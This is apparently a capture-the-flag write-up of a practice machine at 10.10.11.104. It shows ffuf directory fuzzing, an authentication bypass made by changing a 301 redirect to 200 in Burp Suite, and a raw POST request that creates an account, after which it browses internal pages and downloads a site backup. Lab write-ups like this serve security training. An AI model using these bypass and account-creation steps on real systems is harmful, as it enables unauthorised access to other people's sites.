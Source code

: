 Good enumeration was key here...first didnt find any useful directory
Then I started fuzzing with ffuf to find more pages

`ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.104/FUZZ.php`

`nav.php` is the most useful and shows more pages
But all require authentification :(

but we can bypass that with burpsuite

we can see the pages...we request `accounts.php` and change do capture response

change response code from `301 found` (redirect) to `200 Ok` and forward allows us to bypass redirect

Now we create an account to have access

```
POST /accounts.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://10.10.11.104
DNT: 1
Connection: close
Referer: http://10.10.11.104/login.php
Cookie: PHPSESSID=grjd8tcm0bkoeoqbetojkms7eo
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=nairolf&password=nairolf&confirm=nairolf&submit=
```

Forward and now we can login as 'nairolf' and start looking around pages

`status.php`

```
Check website status:

MySQL server is online and connected!

There are 5 registered admins

There is 1 uploaded file
```

`file_logs.php`
here we can download log file as `out.log`

`files.php`

we can see newguy uploaded a file `sitebackup.zip` we get that
